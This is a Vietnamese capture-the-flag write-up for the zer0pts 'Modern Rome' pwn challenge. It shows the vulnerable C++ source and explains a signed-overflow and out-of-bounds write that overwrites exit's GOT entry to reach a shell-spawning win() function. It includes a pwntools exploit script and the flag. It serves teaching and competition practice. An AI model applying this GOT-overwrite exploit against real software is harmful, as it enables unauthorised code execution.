



# Modern Rome



Đề cung cấp cho ta file binary và source code.

Kiểm tra file binary



Source code được viết ở ngôn ngữ c++.

```c++
#include <string>
#include <iostream>

short buf[10];

void win() {
  std::system("/bin/sh");
}

short readroman(){
  short res = 0;
  std::string s;

  std::cin >> s;
  auto it = s.crbegin();

  int b = 1;
  for (auto c: "IXCM") {
    int cnt = 0;
    while (cnt < 9 && it != s.crend() && *it == c) {
      it++;
      cnt++;
    }
    res += b * cnt;
    b *= 10;
  }

  return res;
}

int main() {
  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "ind: ";
  int ind = readroman();
  std::cout << "val: ";
  int val = readroman();

  std::cout << "buf[" << ind << "] = " << val << std::endl;
  buf[ind] = val;

  std::exit(0);
}

```

Phân tích source, ta thấy:

  - Hàm `win()` gọi cho ta shell.

  - Ở cuối hàm `main()` có dòng `buf[ind] = val;` `buf` là một mảng thuộc phân vùng `bss`, `ind`, `val` có kiểu dữ liệu int => vì không có kiểm tra điều kiện nên ta có thể dùng ghi đè vào 2 byte cuối của `exit.got`, lúc ban đầu `exit.got` sẽ có giá trị là `exit.plt + 4`, đè 2 byte để chuyển về hàm `win()`. Lúc sau khi chương trình gọi `exit()` ở cuối hàm `main()`, ta chạy được hàm `win()`
  
  - Hàm `readtoman()` đọc một chuỗi và chuyển về một số kiểu dữ liệu short (2 bytes), công thức chuyển là `‘\x00’ * a + ‘M’ * b + ‘C’ * c + ‘X’ * d + ‘I’ * e -> abcde`. Nếu chỉ được phép ghi đè 4 số, số tối đa của ta sẽ là 9999 < 32767 => `readtoman()` trả về số dương. Tuy nhiên vòng for sẽ lặp thêm 1 lần null byte, giúp cho ta ghi được số thứ 5, lúc này ta có thể overflow biến res về số âm. 
`(short)(-372) = 0xfe8c = 65164`.

  - Sau đó địa chỉ hàm `win()` là `0x4012F6`, giá trị ban đầu của `exit.got` là `0x4011A4`, ta sẽ đè 2 byte `0x12F6 (4854)` vào 2 byte cuối `exit.got`. 
  
## Exploit:

```python
#
#	***************************
#	* Pwning exploit template *
#	* Arthor: Cobra           *
#	***************************
#

from pwn import *
import sys

def conn():
	local = 0
	debug = 0

	for arg in sys.argv[1:]:
		if arg in ('-h', '--help'):
			print('Usage: python ' + sys.argv[0] + ' <option> ...')
			print('Option:')
			print('        -h, --help:     Show help')
			print('        -l, --local:    Running on local')
			print('        -d, --debug:    Use gdb auto attach')
			exit(0)
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		s = process('./chall')
		if debug:
			gdb.attach(s, gdbscript='''
				b*0x0000000000401571
				b*0x00000000004014fd
				b*0x00000000004014e1
				c
			''')
		else:
			raw_input('DEBUG')
	else:
		s = remote('pwn1.ctf.zer0pts.com', 9000)

	return s

s = conn()

elf = ELF('chall')

s.sendlineafter(b'ind: ', b'\x00' * 6 + b'M' * 5 + b'C' * 1 + b'X' * 6 + b'I' * 4)
s.sendlineafter(b'val: ', b'M' * 4 + b'C' * 8 + b'X' * 5 + b'I' * 4)

s.interactive()
```



Flag: `zer0pts{R0me_w1ll_3x1st_a5_1on9_4s_th3_Col1s3um_d0es}`
